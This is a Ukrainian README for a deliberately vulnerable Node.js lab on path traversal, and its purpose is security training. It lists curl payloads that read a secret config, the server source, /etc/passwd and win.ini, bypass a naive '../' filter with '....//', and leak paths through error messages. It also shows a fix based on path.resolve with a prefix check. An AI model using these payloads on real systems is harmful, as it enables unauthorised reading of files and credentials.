

[🏠 Головна](../README.md) · [⬅ X03 SSTI](../X03_SSTI/README.md) · [X05 CSRF ➡](../X05_CSRF/README.md)

# 📂 X04: Path Traversal

> **OWASP A01:2025 — Broken Access Control** · порт **3014** · CWE-22, CWE-23
>
> ⚠️ Вразливий ендпоінт читає будь-який файл, доступний процесу Node.js.



## 📋 Зміст

- [Мета](#-мета)
- [Запуск](#-запуск)
- [Вразливості](#-вразливості)
- [Експлуатація](#-експлуатація)
- [Виправлення](#-виправлення)
- [Завдання](#-завдання)
- [Джерела](#-джерела)

---

## 🎯 Мета

Навчитися виявляти та експлуатувати вихід за межі дозволеної директорії через `../`, обходити наївні фільтри та правильно канонізувати шляхи.

## 🚀 Запуск

```bash
cd X04_PathTraversal
npm install
npm start          # http://127.0.0.1:3014
```

Структура:

```
X04_PathTraversal/
├── files/        ← публічні документи (дозволено)
│   ├── welcome.txt, price-list.txt, manual.txt
├── secret/       ← НЕ повинно бути доступно
│   └── db-config.txt   (містить FLAG)
└── server.js
```

## 🚫 Вразливості

| Ендпоінт | Статус | Проблема |
|---|---|---|
| `GET /download?file=` | 🔴 | `path.join(FILES_DIR, file)` — `path.join` **не захищає** від `../`; у помилці витікає абсолютний шлях |
| `GET /download-filtered?file=` | 🔴 | одноразове видалення `../` — обходиться через `....//` |
| `GET /download-secure?file=` | 🟢 | `path.resolve` + перевірка префікса базової директорії |

## 💣 Експлуатація

```bash
# Секретний конфіг (FLAG)
curl "http://127.0.0.1:3014/download?file=../secret/db-config.txt"

# Вихідний код сервера
curl "http://127.0.0.1:3014/download?file=../server.js"

# Системні файли
curl "http://127.0.0.1:3014/download?file=..%2F..%2F..%2F..%2FWindows%2Fwin.ini"     # Windows
curl "http://127.0.0.1:3014/download?file=../../../../etc/passwd"                    # Linux

# Обхід наївного фільтра: "....//" → після видалення "../" стає "../"
curl "http://127.0.0.1:3014/download-filtered?file=....//secret/db-config.txt"

# Витік шляху через помилку
curl "http://127.0.0.1:3014/download?file=nope"
```

> У браузері `../` в URL нормалізується ще до відправки — використовуй форму на сторінці, `curl --path-as-is` або Burp.

## ✅ Виправлення

```javascript
const resolved = path.resolve(FILES_DIR, file);

// результат має лежати СТРОГО всередині базової директорії
if (!resolved.startsWith(FILES_DIR + path.sep)) {
    return res.status(403).json({ error: 'Access denied' });
}
```

Ще краще — взагалі не приймати шлях від користувача:

- віддавати файли за **ID** з таблиці відповідностей (`id → ім’я файлу`);
- `path.basename()` для імен, allowlist розширень;
- запускати процес з мінімальними правами на ФС;
- не повертати клієнту текст системних помилок.

## 🧪 Завдання

1. Знайди FLAG у `secret/db-config.txt`.
2. Прочитай `package.json` і `server.js` лабораторної.
3. Поясни, чому `/download-filtered` вразливий, і запропонуй ще 2 обходи (URL-encoding, `..\` на Windows).
4. Перевір, що `/download-secure` блокує всі знайдені тобою пейлоади.

## 📚 Джерела

- [OWASP Top 10:2025 — A01 Broken Access Control](https://top10.owasp.org/2025/A01_2025-Broken_Access_Control/)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [PortSwigger — Path traversal](https://portswigger.net/web-security/file-path-traversal)

---

[⬆ До змісту](#-зміст) · [🏠 Головна](../README.md)
